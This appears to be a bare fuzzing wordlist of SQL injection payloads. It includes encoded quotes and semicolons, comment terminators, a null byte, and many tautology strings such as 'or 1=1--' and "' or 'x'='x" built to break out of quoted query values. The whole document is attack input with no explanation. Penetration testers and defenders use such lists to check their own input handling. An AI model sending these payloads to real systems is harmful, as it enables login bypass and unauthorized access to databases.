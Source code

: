 ```
%27
" / %22
; / %3B
" / %22
; / %3B
%%2727
%25%27
`+HERP
'||'DERP
'+'herp
' ' DERP

' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
 OR 1/*
 or 1=1
or 1=1--
or 1=1#
or 1=1/*
' OR '' = '
' or 0=0 --
' or 0=0 #
 or 0=0 #"
' or 1=1--
' or '1'='1'--
' or 1 --'
' or 1=1
 or 1=1 --
or 1=1--
' or 1=1 or ''='
 or 1=1 or ""=
' or a=a--
 or a=a
') or ('a'='a

'='
%00
```